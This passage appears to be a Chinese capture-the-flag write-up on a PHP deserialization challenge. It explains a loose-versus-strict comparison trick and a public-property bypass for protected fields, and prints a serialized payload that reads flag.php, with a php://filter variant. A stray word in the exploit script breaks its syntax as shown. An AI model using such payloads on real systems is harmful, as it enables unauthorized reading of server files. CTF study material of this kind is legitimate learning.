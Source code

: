 如果op==="2"，将其赋为"1"，同时content赋为空，进入process函数，需要注意到的地方是，这里op与"2"比较的时候是强类型比较，待会要用到。

```php
public function process() {
    if($this->op == "1") {
        $this->write();
    } else if($this->op == "2") {
        $res = $this->read();
        $this->output($res);
    } else {
        $this->output("Bad Hacker!");
    }
}
```

进入process函数后，如果op\=="1"，则进入write函数，若op\=="2"，则进入read函数，否则输出报错，可以看出来这里op与字符串的比较又变成了弱类型比较。

**所以我们只要令op=2,这里的2是整数int。当op=2时，op\==="2"为false，op\=="2"为true**就可以进入read()函数内。

```php
private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }
```

我们再控制filename参数，再使用file_get_contents函数读取文件就行了。

#### 调用protected

但这里注意，我们这里：$op,$filename,$content三个变量权限都是protected，而protected权限的变量在序列化的时会有%00*%00字符，%00字符的ASCII码为0，就无法通过上面的is_valid函数校验。

这里就是关键了，在这里有几种绕过的方式，简单的一种是：**php7.1+版本对属性类型不敏感**，本地序列化的时候将属性改为public进行绕过即可。



php反序列化：

```php
<?php
 class FileHandler{
    public $op=2;
    public $filename='flag.php';
    public $content;shengzhi
}

$str= new FileHandler;
echo serialize($str);
?>
//O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}
//这里我们甚至可以将文件名改为：
//    public $filename="php://filter/read=convert.base64-encode/resource=flag.php";
```

